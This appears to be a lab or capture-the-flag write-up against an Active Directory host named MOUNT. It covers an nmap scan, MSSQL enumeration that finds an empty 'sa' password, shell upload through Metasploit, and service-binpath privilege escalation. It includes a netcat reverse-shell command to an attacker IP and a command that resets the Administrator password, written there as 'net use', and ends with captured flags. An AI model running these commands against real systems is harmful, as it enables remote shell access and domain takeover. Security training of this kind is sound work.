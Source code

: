 # MOUNT / Active Directory

![](../.gitbook/assets/e10e5087c55c4b4ba5fa063e1097ec2a.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-16 03:08:51Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Mount.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: MOUNT
|   NetBIOS_Domain_Name: MOUNT
|   NetBIOS_Computer_Name: MOUNT-DC
|   DNS_Domain_Name: Mount.csl
|   DNS_Computer_Name: Mount-DC.Mount.csl
|   DNS_Tree_Name: Mount.csl
|_  Product_Version: 10.0.17763
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Mount.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MOUNT
|   NetBIOS_Domain_Name: MOUNT
|   NetBIOS_Computer_Name: MOUNT-DC
|   DNS_Domain_Name: Mount.csl
|   DNS_Computer_Name: Mount-DC.Mount.csl
|   DNS_Tree_Name: Mount.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-16T03:09:51+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49690/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49699/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49744/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49860/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## MSSQL ENUMERATION

### METASPLOIT auxiliary\(admin/mssql/mssql\_enum\)

* Accounts with empty password:

```text
sa
```

* Windows Logins on this Server:

  ```text
  Administrator
  NT SERVICE\SQLWriter
  NT SERVICE\Winmgmt
  NT Service\MSSQLSERVER
  NT AUTHORITY\SYSTEM
  NT SERVICE\SQLSERVERAGENT
  NT SERVICE\SQLTELEMETRY
  AKirk
  PTaylor
  KWood
  NLee
  AWoods
  ```

* DOMAIN ACCOUNTS

  ```text
  [*] 172.31.3.5:1433 -  - MOUNT\Administrator
  [*] 172.31.3.5:1433 -  - MOUNT\Guest
  [*] 172.31.3.5:1433 -  - MOUNT\krbtgt
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Admins
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Users
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Guests
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Computers
  [*] 172.31.3.5:1433 -  - MOUNT\Domain Controllers
  [*] 172.31.3.5:1433 -  - MOUNT\Cert Publishers
  [*] 172.31.3.5:1433 -  - MOUNT\Schema Admins
  [*] 172.31.3.5:1433 -  - MOUNT\Enterprise Admins
  [*] 172.31.3.5:1433 -  - MOUNT\Group Policy Creator Owners
  [*] 172.31.3.5:1433 -  - MOUNT\Read-only Domain Controllers
  [*] 172.31.3.5:1433 -  - MOUNT\Cloneable Domain Controllers
  [*] 172.31.3.5:1433 -  - MOUNT\Protected Users
  [*] 172.31.3.5:1433 -  - MOUNT\Key Admins
  [*] 172.31.3.5:1433 -  - MOUNT\Enterprise Key Admins
  [*] 172.31.3.5:1433 -  - MOUNT\RAS and IAS Servers
  [*] 172.31.3.5:1433 -  - MOUNT\Allowed RODC Password Replication Group
  [*] 172.31.3.5:1433 -  - MOUNT\Denied RODC Password Replication Group
  [*] 172.31.3.5:1433 -  - MOUNT\MOUNT-DC$
  [*] 172.31.3.5:1433 -  - MOUNT\DnsAdmins
  [*] 172.31.3.5:1433 -  - MOUNT\DnsUpdateProxy
  [*] 172.31.3.5:1433 -  - MOUNT\AKirk
  [*] 172.31.3.5:1433 -  - MOUNT\PTaylor
  [*] 172.31.3.5:1433 -  - MOUNT\KWood
  [*] 172.31.3.5:1433 -  - MOUNT\NLee
  [*] 172.31.3.5:1433 -  - MOUNT\AWoods
  [*] 172.31.3.5:1433 -  - MOUNT\SQLServer2005SQLBrowserUser$MOUNT-DC
  ```

### UPLOAD A SHELL use exploit/windows/mssql/mssql\_payload

![](../.gitbook/assets/4f9802d331764214ada8684fc2e1e8c4.png)

![](../.gitbook/assets/f3cf031fa759443dad0bc5baa5e9fbf0.png)

![](../.gitbook/assets/832a71fbccfa469187b21aef9ce6c477.png)

### WINPEAS

![](../.gitbook/assets/962b068f5ccf4577929b3b2a0277e54f.png)

## PRIVESC

* [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation\#services](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)

### UPLOAD NC64.EXE \(DIDN'T WORKED\)

![](../.gitbook/assets/3277f93aab244380b67485fab7701219.png)

```text
sc config UsoSvc binpath="cmd \c C:\Windows\SERVIC~1\MSSQLS~1\AppData\Local\Temp\nc64.exe 10.10.0.63 3883 -e C:\WINDOWS\System32\cmd.exe"

sc start UsoSvc
```

### CHANGING ADMINISTRATOR PASSWORD \(WORKED\)

```text
sc config UsoSvc binpath="net use Administrator livestep /DOMAIN"

sc start UsoSvc
```

![](../.gitbook/assets/566e088fb7ca45f0a21555d96e3d4604.png)

![](../.gitbook/assets/9e85a653c4c14d8dafbf02f700e9b9c2.png)

## FLAGS

### USER

```text
f4d5ae56175f2f987b5cbdd9281dfdcc
```

### ROOT

```text
e6fca557392919cb8373d0e0165c88ed
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

